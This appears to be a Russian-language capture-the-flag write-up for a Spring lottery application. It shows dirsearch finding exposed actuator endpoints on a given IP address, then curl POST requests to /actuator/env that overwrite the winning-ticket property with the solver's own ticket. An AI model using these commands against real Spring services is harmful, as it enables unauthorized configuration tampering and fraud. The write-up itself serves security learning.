



# Национальная лотерея



Приложение на Spring, в котором реализован функционал лотереи. Выигрышный билет 
неизвестен, и угадать его практически невозможно.

---
## Bruteforce attempts (a lot of registration)





Failed

---

С помощью инструмента dirsearch можно найти открытый actuator.
```bash
dirsearch -u "http://94.19.79.169:20001" -x 404
```

```bash
[03:17:49] 200 -    2KB - /actuator
[03:17:49] 200 -    5KB - /actuator/env
[03:17:49] 200 -   49B  - /actuator/health
[03:17:49] 200 -    2B  - /actuator/info
[03:17:49] 200 -   17KB - /actuator/configprops
[03:17:49] 200 -    2KB - /actuator/metrics
[03:17:49] 200 -   86KB - /actuator/conditions
[03:17:49] 200 -   54B  - /actuator/scheduledtasks
[03:17:49] 200 -   21KB - /actuator/mappings
[03:17:49] 200 -  126KB - /actuator/beans
[03:17:49] 200 -   53KB - /actuator/loggers
[03:17:49] 200 -  124KB - /actuator/threaddump
```

Замечаем, что эндпоинты поддерживает POST запросы. 
Ответ на OPTIONS показывает: Allow: GET, POST, OPTIONS. 
Это означает, что можно не только читать переменные окружения, но и изменять их.

```bash
curl -X POST http://94.19.79.169:20001/actuator/env \
  -H "Content-Type: application/json" \
  -d '{"name":"test.property","value":"test123"}'
```

Теперь нужно найти, какое свойство контролирует выигрышный билет. Логично 
предположить, что это lottery.winning.ticket. Далее можно просто заменить значение
выигрышного билета в env на свой билет из профиля.

```bash
curl -X POST http://94.19.79.169:20001/actuator/env \
  -H "Content-Type: application/json" \
  -d '{"name":"lottery.winning.ticket","value":"ticket-c79b6292"}'
```